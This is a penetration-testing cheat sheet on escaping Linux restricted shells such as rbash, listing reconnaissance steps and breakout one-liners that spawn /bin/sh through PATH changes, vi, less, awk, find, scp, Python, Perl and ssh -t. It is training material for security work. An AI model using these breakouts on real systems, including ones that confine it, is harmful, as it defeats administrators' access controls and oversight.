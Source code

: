 # Escaping Restricted Shell

Some sysadmins don't want their users to have access to all commands. So they get a restriced shell. If the hacker get access to a user with a restriced shell we need to be able to break out of that, escape it, in order to have more power.

Many linux distros include rshell, which is a restriced shell.

To access the restried shell you can do this:

```
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar)  
[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

## Breaking Out

**Getting out of restricted shell**

#### Reconnaissance[¶](https://bitvijays.github.io/LFC-VulnerableMachines.html#reconnaissance)

Find out information about the environment.

* Run env to see exported environment variables
* Run ‘export -p’ to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH \($PATH\) and SHELL \($SHELL\) variables are ‘-rx’, which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell!

* If the SHELL variable is writeable, you can simply set it to your shell of choice \(i.e. sh, bash, ksh, etc…\).

* If the PATH is writeable, then you’ll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what’s allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

#### Quick Wins

* If ‘/’ is allowed in commands just run /bin/sh

* If we can set PATH or SHELL variable

```
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
```

 or if chsh command is present just change the shell to /bin/bash

```
chsh
password: <password will be asked>
/bin/bash
```

 If we can copy files into existing PATH, copy

```
cp /bin/sh /current/directory; sh
```

#### Taking help of binaries

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -&gt; !/bin/sh
* gdb -&gt; !/bin/sh
* more/ less/ man -&gt; !/bin/sh
* vi -&gt; :!/bin/sh : Refer [Breaking out of Jail : Restricted Shell](http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html) and [Restricted Accounts and Vim Tricks in Linux and Unix](http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html)
* scp -S /tmp/getMeOut.sh x y : Refer [Breaking out of rbash using scp](http://pentestmonkey.net/blog/rbash-scp)
* awk ‘BEGIN {system\(“/bin/sh”\)}’
* find / -name someName -exec /bin/sh ;
* tee

```
echo "Your evil code" | tee script.sh
```

 Invoke shell thru scripting language

 Python

```
python -c 'import os; os.system("/bin/bash")
```

 Perl

```
perl -e 'exec "/bin/sh";'
```

#### SSHing from outside

* Use SSH on your machine to execute commands before the remote shell is loaded:

```
ssh username@IP -t "/bin/sh"
```

*  Start the remote shell without loading “rc” profile \( where most of the limitations are often configured\)

```
ssh username@IP -t "bash --noprofile"
```



